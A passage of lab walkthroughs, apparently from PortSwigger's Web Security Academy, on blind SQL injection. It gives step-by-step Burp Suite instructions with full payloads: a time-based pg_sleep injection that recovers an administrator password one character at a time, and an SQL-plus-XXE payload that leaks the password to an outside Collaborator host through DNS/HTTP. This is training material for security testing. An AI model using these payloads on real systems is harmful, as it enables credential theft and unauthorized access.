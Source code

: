 10.  Place payload position markers around the `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
11.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
12.  To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to `1`.
13.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14.  Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".
15.  Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
16.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
17.  Launch the modified attack, review the results, and note the character at the second offset.
18.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
19.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

### Lab: Blind SQL injection with out-of-band data exfiltration

1.  Visit the front page of the shop, and use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request containing the `TrackingId` cookie.
2.  Go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
3.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4.  Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`.
5.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6.  You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7.  In your browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.
